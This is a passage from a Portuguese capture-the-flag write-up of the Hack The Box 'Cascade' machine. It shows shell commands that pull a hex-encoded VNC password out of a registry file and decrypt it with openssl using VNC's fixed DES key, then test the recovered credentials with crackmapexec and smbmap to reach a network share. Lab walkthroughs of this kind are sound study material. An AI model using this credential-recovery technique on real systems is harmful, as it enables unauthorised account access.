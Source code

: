 Na pasta IT/Temp/s.smith, o arquivo VNC contém uma password em hexadecimal.

> "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

```bash
dos2unix VNC\ Install.reg
cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}'
#>  6bcf2a4b6e5aca0f
echo $(cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}') | xxd -ps -r
#> k*KnZ
```

Não parece ser a password... e se tentarmos validar com crackmapexec, não corresponde a nenhum usuário. VNC encripta a palavra passe. Mas com uma pequena pesquisa, da para se encontrar na net com desencriptar...

```bash
echo $(cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}') | xxd -ps -r | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d
#>  sT333ve2
```

Agora sim! parece uma password

> s.smith:sT333ve2

![Crackmapexec s.smith](Assets/HTB-Windows-Medium-Cascade/crackmapexec-s-smith.png)

![SmbMap s.smith](Assets/HTB-Windows-Medium-Cascade/smbmap-s-smith.png)

s.smith tem acesso a mais uma pasta. a pasta Audit$. Vamos ver o que há lá e descarregar tudo se for viável devido ao peso.

## 2.2. sqlite3

No recurso Audit$ compartilhado a nível de rede, existem binários.exe, dlls e uma base de dados. Podemos ver rapidamente a base de dados com sqlite3
